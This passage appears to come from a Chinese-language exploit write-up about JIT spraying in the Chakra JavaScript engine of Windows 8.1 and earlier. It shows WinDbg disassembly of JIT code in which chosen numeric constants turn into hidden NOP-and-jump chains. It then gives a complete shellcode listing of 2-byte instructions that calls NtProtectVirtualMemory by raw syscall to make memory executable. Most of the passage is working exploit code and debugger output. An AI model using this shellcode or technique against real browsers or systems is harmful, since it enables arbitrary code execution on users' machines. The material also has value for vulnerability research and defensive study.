 在某几个条件同时满足的情况下，可以让Windows 8.1及其之前的Chakra引擎生成类似这样的机器指令：

```
...
05010090 81c19090eb18    add     ecx,18EB9090h
05010096 0f80d6010000    jo      05010272
0501009c 8bf9            mov     edi,ecx
0501009e 8b5dbc          mov     ebx,dword ptr [ebp-44h]
050100a1 f6c301          test    bl,1
050100a4 0f8413020000    je      050102bd
050100aa 8bcb            mov     ecx,ebx
050100ac 81c19090eb18    add     ecx,18EB9090h
050100b2 0f8005020000    jo      050102bd
050100b8 8bf9            mov     edi,ecx
050100ba 8b5dbc          mov     ebx,dword ptr [ebp-44h]
050100bd f6c301          test    bl,1
050100c0 0f8442020000    je      05010308
050100c6 8bcb            mov     ecx,ebx
...
0:017> u 05010090 + 2 l 3
05010092 90              nop
05010093 90              nop
05010094 eb18            jmp     050100ae
0:017> u 050100ae l 3
050100ae 90              nop
050100af 90              nop
050100b0 eb18            jmp     050100ca

```

所以只要写出每条指令长度不大于2字节的Shellcode，就可以嵌入到立即数中。因为实际产生的立即数是JavaScript中数字的2倍，所以使用的指令如果是2字节，第1字节必须为偶数。这是完全可能做到的。

```
0x5854   // push esp--pop eax    ; eax = esp, make eax writeable
0x5252   // push edx--push edx   ; esp -= 8
0x016A   // push 1
0x4A5A   // pop  edx--dec edx    ; edx = 0
0x5E52   // push edx--pop esi    ; esi = 0
0x40B6   // mov  dh, 0x40        ; edx = 0x4000, NumberOfBytesToProtect
0x5452   // push edx--push esp   ; *esp = &NumberOfBytesToProtect
0x5B90   // pop  ebx             ; ebx = &NumberOfBytesToProtect
0x14B6   // mov  dh, 0x14
0x14B2   // mov  dl, 0x14
0x5266   // push dx
0x5666   // push si              ; *esp = 0x14140000
0x525A   // pop  edx-push edx    ; edx = 0x14140000
0x5E54   // push esp--pop  esi   ; esi = &BaseAddress, 
0x5454   // push esp--push esp   ; push &OldAccessProtection 
0x406A   // push 0x40            ; PAGE_EXECUTE_READWRITE
0x5390   // push ebx             ; push  &NumberOfBytesToProtect
0x5690   // push esi             ; push &BaseAddress
0xFF6A   // push -1              ; 
0x5252   // push edx--push edx   ; set ret addr
0x5290   // push edx             ; prepare esp for fs:[esi]
0x016A   // push 1
0x4A5A   // pop  edx--dec edx    ; edx = 0
0xC0B2   // mov  dl, 0xC0
0x5E52   // push edx--pop esi
0x5F54   // push esp--pop edi
0xA564   // movs dword ptr [edi], dword ptr fs:[esi] ; *esp = *(fs:0xC0)
0x4FB2   // mov  dl, 0x50        ; NtProtectVirtualMemory, Win8.1:0x4F, Win10:0x50
0x5290   // push edx
0xC358   // pop  eax--ret        ; ret to syscall

```